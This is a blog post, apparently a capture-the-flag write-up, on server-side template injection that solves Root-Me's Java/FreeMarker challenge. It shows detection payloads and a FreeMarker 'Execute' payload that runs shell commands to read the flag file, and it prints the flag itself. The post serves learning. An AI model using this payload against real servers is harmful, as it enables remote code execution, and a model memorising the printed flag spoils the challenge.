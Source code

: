 +++
title = "Deepening My SSTI Knowledge: Java SSTI on Root-Me"
description = "A journey from studying the theory of Server-Side Template Injection (SSTI) to applying it to solve a Java/FreeMarker challenge on Root-Me."
date = "2025-09-09"
draft = false
tags = ["SSTI", "RootMe", "Cybersecurity", "Java", "FreeMarker", "RCE"]
+++

After my first taste of Server-Side Template Injection (SSTI) with the PicoCTF challenge, I was hooked. It was a relatively straightforward introduction, and it left me wanting to learn more. This post documents my journey of diving deeper into SSTI, from studying the theory to solving a more complex challenge on Root-Me.

---

## Broadening My SSTI Understanding

I started by consuming as much information as I could find on SSTI. Here are some of the resources I found most helpful:

*   [https://www.youtube.com/watch?v=x_1A9rCxREs](https://www.youtube.com/watch?v=x_1A9rCxREs)
*   [https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/](https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/)
*   [https://hackerone.com/reports/125980](https://hackerone.com/reports/125980)
*   [https://github.com/DiogoMRSilva/websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI) (last update is older than 3 years)
*   [https://www.pmnh.site/post/writeup_spring_el_waf_bypass/](https://www.pmnh.site/post/writeup_spring_el_waf_bypass/)
*   [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)
*   [https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf)
*   [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

### Key Takeaways

*   **SSTI vs. XSS:** While they might seem similar, SSTI is far more dangerous. It attacks the server's internals directly, often leading to Remote Code Execution (RCE), whereas Cross-Site Scripting (XSS) is a client-side vulnerability.
*   **Template Engines as a Feature:** Many applications, like wikis, blogs, and content management systems, intentionally expose template engines to users for rich functionality. The key is whether these engines are properly sandboxed.

### A Methodology for SSTI

I formulated a simple methodology for tackling potential SSTI vulnerabilities:

1.  **Detect:** Look for plaintext input that gets rendered with some processing. This is a prime candidate for SSTI.
2.  **Identify:**
    *   Probe with invalid syntax to trigger errors that might reveal the template engine.
    *   Use a decision tree of payloads to identify the engine.
    *   Use tools like Wappalyzer to identify the server's language and framework, which helps narrow down the possibilities.
3.  **Exploit:**
    *   **Read the Docs:** Once the engine is identified, read its documentation, paying close attention to security sections and built-in methods.
    *   **Explore:** Understand the environment and look for gadgets that can be abused.
    *   **Attack:** Build an attack vector and iterate until you find something that works. Escalate the attack to achieve a higher impact, like RCE.

---

## The Root-Me Challenge: Java SSTI

With a solid theoretical foundation, I was ready for a new challenge: [Java - Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection).

### Detection and Identification

The challenge presented a simple form that took a `nickname` as input. I used Caido to replay the request and automate the testing of a list of common SSTI payloads from the [PayloadBox repo](https://github.com/payloadbox/ssti-payloads).

Here is the `curl` command for the request:
```bash
curl 'http://challenge01.root-me.org/web-serveur/ch41/check' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0' \
  -H 'Accept: text/plain, */*; q=0.01' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: http://challenge01.root-me.org' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://challenge01.root-me.org/web-serveur/ch41/' \
  -H 'Cookie: _ga_SRYSKX09J7=GS2.1.s1757387996$o1$g1$t1757388045$j11$l0$h0; _ga=GA1.1.1521611932.1757387996' \
  -H 'Priority: u=0' \
  --data-raw 'nickname=hi'
```

Two payloads worked:

*   `%24%7B6*6%7D` (URL-decoded: `${6*6}`) resulted in `36`
*   `%23%7B3*3%7D` (URL-decoded: `#{3*3}`) resulted in `9`

This suggested a Java-based template engine. To confirm, I sent a payload with invalid syntax: `%24%7B%7B3*3%7D%7D`. The server responded with a detailed error message:

```json
{
    "timestamp": 1757388561239,
    "status": 500,
    "error": "Internal Server Error",
    "exception": "freemarker.core.ParseException",
    "message": "..."
}
```

The exception clearly identified the template engine as **FreeMarker**.

### Exploration and Exploitation

Now that I knew I was dealing with FreeMarker, I started researching ways to achieve RCE. I found that the `freemarker.template.utility.Execute` class could be used to run shell commands.

Execute class implements TemplateModel which allows hacker to create 'Execute' instance and execute any shell commands.

My first attempt to use it failed, likely due to a syntax error or issues with URL encoding:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

I took a step back and started with a simpler payload to confirm I could assign variables:

```freemarker
<#assign myVar = "Hello World"> ${myVar}
```

This worked! It returned `Hello World`. Now, I tried to instantiate the `Execute` class again:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex}
```

This returned a 200 OK response, but no output. This was a good sign. It meant the object was likely created successfully. I was expecting an object hash, but the empty response was still promising.

I then revisited my RCE payload, making sure the syntax was correct. I realized I had made a silly mistake in my first attempt: I had forgotten the closing curly brace `}`. With the corrected payload, I was able to execute the `id` command:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

The server responded with:

```
uid=1109(web-serveur-ch41) gid=1109(web-serveur-ch41) groupes=1109(web-serveur-ch41),100(users)
```

I had RCE!

### Getting the Flag

Now for the final steps:

1.  **List the files:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ls -la") }
    ```

    This revealed a file named `SECRET_FLAG.txt`.

2.  **Read the flag:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
    ```

And there it was: **`B3wareOfT3mplat3Inj3ction`**

---

This challenge was a fantastic way to solidify my understanding of SSTI. It required a more methodical approach than the PicoCTF challenge and highlighted the importance of careful payload construction and error analysis.

---

## Related Posts

*   [My First SSTI Adventure: A PicoCTF Walkthrough](/post/picoctf-ssti-journey/)